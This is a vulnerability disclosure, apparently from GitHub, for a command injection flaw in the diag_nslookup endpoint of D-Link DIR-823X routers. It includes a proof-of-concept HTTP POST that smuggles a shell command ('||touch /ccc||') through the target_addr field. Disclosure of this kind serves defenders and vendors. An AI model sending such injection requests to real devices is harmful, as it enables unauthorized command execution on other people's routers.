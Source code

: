 # Information

**Vendor of the products:** D-Link

**Vendor's website:** http://www.dlink.com.cn/

**Reported by:** He Nan([2777256035@qq.com](mailto:2777256035@qq.com)) ,  Zhao Jiangting([sta8r9@163.com](mailto:sta8r9@163.com))

**Affected products:** DIR-823X AX3000 Series Routers

**Affected firmware version:** 240126, 240802

**Firmware download address:** http://www.dlink.com.cn/home/product?id=3118

# Overview

A command injection vulnerability in D-Link DIR-823X Series Routers with firmware versions 240126/240802 allows an authorized attacker to execute arbitrary commands on remote devices by sending a POST request to `/goform/diag_nslookup` via the corresponding function, triggering remote command execution.

# Vulnerability details

By analyzing the `sub_41710C` function in this binary file, we can see that the value of `target_addr` is passed to the variable `s` via the `snprintf` function, and the variable `s` is then used as an argument for the `system` function. Therefore, by maliciously injecting a value into `target_addr`, remote code execution can be achieved.

![image-20250306191134465](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503062353233.png)

This function can be triggered by submitting a POST request to `/goform/diag_nslookup`.

# Poc

```python
POST /goform/diag_nslookup HTTP/1.1
Host: 192.168.122.130
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://192.168.122.130
Connection: close
Referer: http://192.168.122.130/login.html
Cookie: sessionid=00000000000000000000000000000000; token=00000000000000000000000000000000

target_addr=||touch%20/ccc||&token=00000000000000000000000000000000
```

# Attack Demonstration

![image-20250306191034515](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503070000877.png)